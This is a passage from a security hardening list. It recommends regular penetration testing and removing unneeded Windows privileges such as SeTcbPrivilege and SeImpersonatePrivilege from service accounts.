9. **Regular Security Assessments**: Conduct regular penetration testing to identify and remediate vulnerabilities.

10. **Principle of Least Privilege**: Service accounts should have the minimum privileges required to function. Remove unnecessary privileges like `SeTcbPrivilege` and `SeImpersonatePrivilege`.
